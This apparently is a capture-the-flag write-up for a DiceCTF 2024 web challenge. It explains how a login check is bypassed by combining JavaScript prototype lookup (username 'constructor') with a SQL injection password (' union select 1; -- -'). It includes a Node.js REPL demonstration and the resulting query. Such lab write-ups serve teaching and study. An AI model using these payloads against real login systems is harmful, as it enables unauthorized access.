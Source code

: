 
### Prototype pollution + SQLI


#### Foothold

We can control `user`, it will be the key of `isAdmin` object, if we provide a `function` name as a key, it will return valid object

> https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/dicectf-2024]
└─$ node
Welcome to Node.js v18.19.0.
Type ".help" for more information.
> isAdmin = {a: 1}
{ a: 1 }
> isAdmin.
isAdmin.__proto__             isAdmin.constructor           isAdmin.hasOwnProperty        isAdmin.isPrototypeOf         isAdmin.propertyIsEnumerable  isAdmin.toLocaleString
isAdmin.toString              isAdmin.valueOf

isAdmin.a
> isAdmin['constructor']
[Function: Object]
```

The sql query `const id = db.prepare(query).get()?.id;` checks if an id was returned, use `union` to return a row

#### Exploit

- User : `constructor`
- Password : `' union select 1; -- -`

SQL query will be :

```sql
SELECT id FROM users WHERE username = 'constructor' AND password = '' union select 1; -- -;
```

Object `if` statement :

```javascript
if (users[id] && isAdmin['constructor']) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
```

![](/assets/obsidian/32c6c1f5776567cef87bcc06dfde8cd3.png){:target='_blank'}
